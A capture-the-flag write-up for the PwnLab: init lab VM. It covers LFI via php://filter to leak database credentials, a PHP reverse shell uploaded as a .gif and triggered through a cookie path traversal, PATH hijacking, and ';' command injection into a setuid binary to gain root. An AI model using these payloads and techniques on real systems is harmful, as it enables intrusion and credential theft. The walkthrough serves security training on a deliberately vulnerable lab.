 root@kali ~/D/C/PWNLAB# nmap -sS -T4 -p- 10.0.0.22

PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
3306/tcp  open  mysql
53241/tcp open  unknown

An NMAP scan shows 2 interesting ports, rpcbind and port 53241 don't come into affect.
Let's start enumerating HTTP and try to get creds to log into mysql.

--------------------------------------------------------------------------
HTTP 
--------------------------------------------------------------------------
root@kali ~/D/C/PWNLAB# dirsearch -u http://10.0.0.22

/config.php
/images/
/index.php
/login.php
/upload/
/upload.php

We are not permitted to view config.php. Going to http://10.0.0.22 there are 3 hyperlinks, Home, Login and Upload. Going to the Login page, it seems it might be vulnerable to LFI (Local File Inclusion).

http://10.0.0.22/?page=login

I tried accessing the /etc/passwd file but nothing showed up.

http://10.0.0.22/?page=../../../../etc/passwd

Now at this point I got stuck. I tried finding other ways to perform a LFI but found nothing. A write up I found pointed to this site ----> https://diablohorn.com/2010/01/16/interesting-local-file-inclusion-method/

The article suggests to use the php://filter wrapper and base64 encode the content of the file we enter in the resource.

PHP provides a number of I/O streams that allow access to PHP's own input and output streams and filters that can manipulate other file resources as they are read from and written to. php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. "php://filter/convert.base64-encode/resource=" forces PHP to base64 encode the file before it is used in the require statment. From this point it's a matter of decoding the base64 string.

We can now try to read the config.php file we are not permitted to.
For some reason entering "config.php" as the resouce name doesn't return any content, but "config" does.

http://10.0.0.22/?page=php://filter/convert.base64-encode/resource=config

PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+

Base64 decode:

{
	<?php
	$server	  = "localhost";
	$username = "root";
	$password = "H4u%QJ_H99";
	$database = "Users";
	?
}

We know have credentials (root:H4u%QJ_H99) we can use to log into the site hosted on the web server via the login.php page or mysql on port 3306. login.php doesn't work so let's try to log into the sql database and get more information.

root@kali ~/D/C/PWNLAB [1]# mysql -h 10.0.0.22 -u root -p
Enter Password: H4u%QJ_H99

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+

MySQL [(none)]> use Users;

Database changed
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+

After decoding the base64 encoded passwords we can try to log into the site and try get a reverse shell (since SSH isn't available).

kent:JWzXuBJJNy
mike:SIfdsTEn6I
kane:iSv5Ym2GRo

After logging with the kent user we can actually use the site as it was intended (not really) and upload a file. I tried uploading a reverse shell written in php and this error was prompted ---> "Not allowed extension, please upload images only.". Changing the file name from "php-reverse-shell.php" to "php-reverse-shell.php.gif" allows us to upload it. It is stored a the directory /upload and is hashed .

Going to http://10.0.0.27/upload/450619c0f9b99fca3f46d28787bc55c5.gif gives us an error "The "image http://10.0.0.27/upload/450619c0f9b99fca3f46d28787bc55c5.gif" cannot be displayed because it contains errors". Let's try to find a different way to access the script.

index.php source code:

{
	<?php
	//Multilingual. Not implemented yet.
	//setcookie("lang","en.lang.php");
	if (isset($_COOKIE['lang']))
	{
		include("lang/".$_COOKIE['lang']);
	}
	// Not implemented yet.
	?>
	<html>
	<head>
	<title>PwnLab Intranet Image Hosting</title>
	</head>
	<body>
	<center>
	<img src="images/pwnlab.png"><br />
	[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
	<hr/><br/>
	<?php
		if (isset($_GET['page']))
		{
			include($_GET['page'].".php");
		}
		else
		{
			echo "Use this server to upload and share image files inside the intranet";
		}
	?>
	</center>
	</body>
	</html>
}

Using Burp Suite we can access the cookie "lang" that was mentioned in the index.php script above and use it for another LFI to access the reverse shell script we uploaded.

Cookie: lang=../upload/450619c0f9b99fca3f46d28787bc55c5.gif

root@kali ~/D/C/PWNLAB# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.0.27] from (UNKNOWN) [10.0.0.22] 42403
$ whoami
www-data
$ sudo -l
bash: sudo: command not found

Going to the /home folder there are 4 users:

drwxr-x--- 2 john john 4096 Mar 17  2016 john
drwxr-x--- 2 kane kane 4096 Mar  1 17:03 kane
drwxr-x--- 2 kent kent 4096 Mar 17  2016 kent
drwxr-x--- 2 mike mike 4096 Mar 17  2016 mike

Let's if the passwords for the users in the site are the same here. We are able to log into the user 'kent' but his folder doesn't hold anything interesting. The password we found for the user 'mike' doesn't work. Luckily the password for the user 'kane' is correct.

After logging in as the user 'kane' and going to /home/kane, we can see that there is an executable called "msgmike", running it gives the error cat: /home/mike/msg.txt: No such file or directory.
It seems we need to change the PATH variable and make the a fake 'cat' command to give us a shell.

cat:

#!/bin/bash

/bin/bash

kane@pwnlab:~$ export PATH=/home/kane
kane@pwnlab:~$ ./msgmike
./msgmike
bash: dircolors: command not found
bash: ls: command not found
mike@pwnlab:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
mike@pwnlab:~$ whoami
mike

NICE! We are successfully logged in as the user 'mike'. Going to the directory /home/mike we find another executable "msg2root".
Using the "strings" command on the script "msg2root" we can see this line:

Message for root: 
/bin/echo %s >> /root/messages.txt

We are able to use ';' to inject code.

mike@pwnlab:/home/mike$ ./msg2root
Message for root: ; /bin/bash -p

bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
